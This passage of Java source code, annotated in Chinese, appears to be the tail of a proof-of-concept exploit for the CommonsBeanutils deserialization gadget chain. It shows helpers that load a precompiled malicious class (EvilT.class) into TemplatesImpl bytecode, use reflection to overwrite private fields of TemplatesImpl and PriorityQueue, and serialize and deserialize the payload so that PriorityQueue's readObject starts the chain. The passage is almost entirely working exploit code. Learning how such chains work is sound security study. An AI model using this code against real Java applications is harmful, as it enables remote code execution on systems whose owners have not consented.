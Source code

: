 ```java
        // 7. 序列化+反序列化触发漏洞（关键：利用反序列化执行排序逻辑）
        // PriorityQueue的readObject()方法会在反序列化时调用heapify()，启动整个调用链
        serializeAndDeserialize(queue);
    }

    /**
     * 读取.class文件的字节码
     * 作用：将预编译的恶意类（EvilT.class）转换为字节数组，供TemplatesImpl加载
     */
    private static byte[] readClassFile(String filePath) throws Exception {
        File file = new File(filePath);
        try (InputStream is = new FileInputStream(file);
             ByteArrayOutputStream bos = new ByteArrayOutputStream()) {

            byte[] buffer = new byte[1024];
            int len;
            while ((len = is.read(buffer)) != -1) {
                bos.write(buffer, 0, len);
            }
            return bos.toByteArray();
        }
    }

    /**
     * 反射设置私有字段值
     * 作用：突破访问权限，修改关键类的私有字段（如TemplatesImpl的_bytecodes、PriorityQueue的queue等）
     */
    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true); // 暴力反射：允许修改私有字段
        field.set(obj, value);
    }

    /**
     * 反射获取私有字段值
     * 作用：获取无法直接访问的私有字段（如PriorityQueue的底层数组queue）
     */
    private static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    /**
     * 序列化和反序列化对象
     * 核心作用：触发PriorityQueue的readObject()方法，该方法会调用heapify()启动排序流程
     * 为什么需要序列化？因为CB链是典型的反序列化漏洞利用链，漏洞点通常在反序列化阶段的对象恢复逻辑中
     */
    private static void serializeAndDeserialize(Object obj) throws Exception {
        // 序列化：将对象转换为字节流
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj); // 触发对象的序列化逻辑
        oos.close();

        System.out.println("Serialized!");

        // 反序列化：将字节流恢复为对象，此时会执行readObject()方法
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject(); // 触发PriorityQueue的readObject()，启动调用链
        ois.close();
```